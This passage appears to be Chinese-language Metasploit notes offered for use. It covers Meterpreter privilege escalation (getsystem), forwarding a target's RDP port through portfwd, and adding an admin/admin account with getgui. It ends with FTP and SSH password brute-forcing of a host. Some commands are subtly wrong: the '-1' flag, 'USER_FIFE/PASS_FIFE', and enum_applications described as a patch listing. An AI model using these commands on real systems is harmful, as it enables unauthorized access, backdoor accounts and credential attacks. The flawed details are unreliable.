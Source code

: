 >
> > getuid	查看当前用户权限
> >
> > getsystem	获取系统最高权限
> >
> > 如果此命令无效可以使用 run post/windows/gather/enum_applications	查看系统所安装的补丁
> >
> > 如果有遗漏的补丁就可以进行利用，从而获得最高权限
>
> **隧道代理技术**
>
> > portfwd add -1 端口号 -r 反弹IP -p 反弹端口号
> >
> > portfwd add -1 1234 -r 192.168.64.7 -p 3389
> >
> > rdesktop 127.0.0.1:1234	使用rdesktop命令连接本地1234端口即可连接目标3389端口
> >
> > 也可以使用getgui命令添加账号密码
> >
> > run getgui -u admin -p admin
> >
> > run getgui -e -f 8888 	将目标的3389映射到本地8888
> >
> > rdesktop 127.0.0.1:8888	使用rdesktop进行连接

##### FTP密码审计

> use auxiliary/scanner/ftp/ftp_login
>
> set RHOSTS 192.168.64.7
>
> set THREADS 100   设置线程数
>
> set USER_FIFE 	  用户名字典
>
> set PASS_FIFE		密码字典
>
> run

##### SSH审计

> use auxiliary/scanner/ssh/ssh_login
>
> set RHOSTS 192.168.64.7
>
> set THREADS 100   设置线程数
>
> set USER_FIFE 	  用户名字典
>
> set PASS_FIFE		密码字典
>
> run
